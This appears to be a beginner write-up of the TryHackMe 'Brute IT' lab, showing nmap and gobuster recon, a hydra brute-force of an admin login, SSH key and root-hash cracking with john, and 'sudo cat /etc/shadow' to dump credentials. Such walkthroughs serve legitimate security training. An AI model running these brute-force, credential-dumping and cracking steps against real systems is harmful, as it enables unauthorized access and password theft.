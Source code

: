 ![0xRar](https://user-images.githubusercontent.com/33517160/130546319-a1634c4c-b598-44fd-b6f4-ad3b3c930de0.png)


# Brute IT -Tryhackme Writeup
### room link: https://tryhackme.com/room/bruteit
Detailed and beginner friendly writeup.

## First Look:
- From the first look i see that we have some bruteforcing to do of course more importantly this room is a practice for bruteforcing and its made for beginners as the difficulty suggests. 


## Recon:
- In the recon we need to map the network (using nmap) to understand what exactly we're attacking and what services  we can exploit or in this case what can we brute force in order to gain access.

```
nmap -p- -sV -T4 MACHINE_IP

Nmap scan report for MACHINE_IP
Host is up (0.13s latency).
Not shown: 65501 closed ports, 32 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Flags Used:
- `-p-`  to scan for every port
- `-sV` to get service versions
- `-T4` for the highest threads so we scan a lot faster

We can see the http service running which is a web server running on port `80` which is the default for the http service, when you see a web server running the first thing you do is directory bruteforcing to see if there is any hidden directories or files, you can use tools like: dirb, dirbuster, ffuf, gobuster.

I like to use gobuster so thats what am going to use to get any directory or file.

```
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirb/common.txt

/admin                (Status: 301) [Size: 314] [--> http://MACHINE_IP/admin/]
```

Flags Used:
- `-u` for the website link
- `-w` for the wordlist

we found an admin page lets head there and see what we have, this is where we attack we can see a login page for the admin always open the source code to see whats going on on that page, suprisingly enough we found the username in a comment.

`<!-- Hey john, if you do not remember, the username is admin -->`

## Gaining Access:
now we just need to bruteforce for the password using a tool called `hydra`
the http-form syntax is annoying to write but you will always find resources online

as we can see in the form in the /admin page source code the params are:
```
the username: name="user"
the password: name="pass"

params: name=&pass=

and we need the error message as well, enter anything and try to login doing that will give as the error message which is "Username or password invalid"
```

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz MACHINE_IP http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

Output:
`[80][http-post-form] host: MACHINE_IP   login: admin   password: `

the password is removed so you can try it by yourself.

By logging in we will find the Web flag and an RSA  Private Key
so we can have access to ssh and gain a shell on the machine but not yet! 

- we need to get the passphase of the RSA Private Key by using a really famous cracking tool called john the ripper.

first we need to get the `id_rsa` hash by using `ssh2john` its in `/usr/share/john/ssh2john.py` by default.

`sudo python /usr/share/john/ssh2john.py id_rsa > hash`

now lets crack the hash using john:
unzip rockyou first using this command :`gzip -d rockyou.txt.gz`

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

now that we have the passphase for the private key lets connect to ssh:

if you can remember the comment from the source code had a name which is `john` that would be a possible username.

`ssh -i id_rsa john@MACHINE_IP`

now we gained access !!! :)
`cat user.txt` to get the user flag


## Privilege Escalation:
When you need to escalate your privilege first thing you do is finding a binary or a writeable file that is owned by the root user aka the super user.

first command you do is `sudo -l`

we already see a binary called `cat` lets go and search for an exploit for it in [gtfobins](gtfobins.github.io) which is a something close to a database but for privilege escalation.

ok, the exploit for it is really easy you just need to use the cat command to read the root flag.

`sudo cat /root/root.txt`

now that we have the root flag the only thing left is the root password and the linux stores the passwords in a file called `/etc/shadow` and the usernames in `/etc/passwd`

lets do the samething we did to the root.txt
`sudo cat /etc/shadow` 

```
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

the hash starts with `$6$` which is a SHA512CRYPT, now i will use john to crack it but another choice would be hashcat.

put the root hash in a file than run john again.

`john -w=/usr/share/wordlists/rockyou.txt roothash`

That was the machine
Happy Hacking :)
